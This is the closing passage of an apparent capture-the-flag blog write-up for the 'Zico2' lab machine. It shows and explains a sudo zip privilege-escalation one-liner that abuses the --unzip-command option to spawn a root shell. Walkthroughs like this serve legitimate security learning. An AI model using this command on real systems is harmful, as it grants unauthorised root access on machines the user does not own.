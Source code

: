 This creates a security hole prone to privilege escalation vulnerability! Just make a random file using touch command (`touch exploit`) and zip it using this command:
 ```console
zico@zico:/tmp$ sudo zip exploit.zip exploit -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"
```

<img src="/img/blog/zico2/Zico13.png">

`sudo - executes as superuser`

`-T - check the file integrity, needs to do some operations which will also execute the next argument --unzip-command (this command grants us a shell)`

`--unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'" - spawns a /bin/sh shell`


## Rooted!


# Conclusion
Sorry for making this blog so lenghty! Sure, it was a long read, but I hope you atleast learnt a thing or two. Props to the author - [Rafael](https://twitter.com/rafasantos5) for making such an awesome machine. It sure was fun!

If you have any questions feel free to reach out to me via my [contact page](https://v3ded.github.io/contact/) or comments below.  
~V3 
